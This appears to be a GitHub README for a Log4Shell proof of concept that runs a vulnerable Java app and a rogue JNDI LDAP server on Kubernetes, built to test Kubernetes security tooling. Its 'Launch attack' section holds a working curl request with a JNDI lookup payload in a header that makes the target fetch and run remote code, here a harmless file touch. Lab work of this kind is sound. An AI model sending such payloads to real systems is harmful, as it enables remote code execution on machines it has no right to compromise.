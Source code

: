 # log4shell-kubernetes

A log4shell proof of concept running on Kubernetes.

This is not much different from other POCs, just automated in simple steps to test Kubernetes specific security tools.

It uses the following projects:
* https://github.com/christophetd/log4shell-vulnerable-app
* https://github.com/veracode-research/rogue-jndi

For more information, check:
* https://vicenteherrera.com/blog/log4j-part-i/

## Build and push docker images

**This step is optional**. You can build your own images if you want instead of using the ones available at [quay.io/vicenteherrera](https://quay.io/user/vicenteherrera).

```bash
# Clone this repo, including repos rogue-jndi and log4shell-vulnerable-app as submodules
git clone --recurse-submodules https://github.com/vicenteherrera/log4shell-kubernetes
# Don't forget the "--recurse-submodule" part!
cd log4shell-kubernetes

# Build and push rogue-jndi
docker build ./rogue-jndi -t quay.io/vicenteherrera/rogue-jndi -f Dockerfile-rogue-jndi
docker push quay.io/vicenteherrera/rogue-jndi

# Build and push log4shell-vulnerable-app
cd log4shell-vulnerable-app
docker build . -t quay.io/vicenteherrera/quay.io/vicenteherrera/log4shell-vulnerable-app
docker push quay.io/vicenteherrera/log4shell-vulnerable-app
cd ..
```

The provided [Dockerfile-rogue-jndi](https://github.com/vicenteherrera/log4shell-kubernetes/blob/main/Dockerfile-rogue-jndi) in this repo is set up to executed on the compromised workload the command:

```bash
touch /root/test.txt
```

## Start Minikube

If you want to test this locally, you can use [Minikube](https://minikube.sigs.k8s.io/docs/) for example.

```bash
minikube start
```

## Deploy on Kubernetes

You can use the online YAML files that points to quay.io container images, no need to clone this repo if you don't need to modify them.

```bash
# vulnerable-log4j deployment and service
kubectl apply -f https://raw.githubusercontent.com/vicenteherrera/log4shell-kubernetes/main/vulnerable-log4j.yaml
# rogue-jndi deployment and service
kubectl apply -f https://raw.githubusercontent.com/vicenteherrera/log4shell-kubernetes/main/rogue-jndi.yaml
```

## Watch logs

```bash
# On different terminals
kubectl logs service/rogue-jndi -f
kubectl logs service/vulnerable-log4j -f
```

## Launch attack

```bash
kubectl run my-shell --rm -it --image curlimages/curl -- sh
curl vulnerable-log4j:8080 -H 'X-Api-Version: ${jndi:ldap://rogue-jndi:1389/o=tomcat}'
exit
```

## Check that the attack succeded on the vulnerable app

```bash
kubectl exec service/vulnerable-log4j -it -- ls /root
```

It should list `test.txt` if the attack is successful.

## More information

* My blog post at "The Vlog": [Log4j 2 vulnerabilities, part I: History](https://vicenteherrera.com/blog/log4j-part-i/)
* Follow me on Twitter: [@vicen_herrera](https://twitter.com/vicen_herrera)
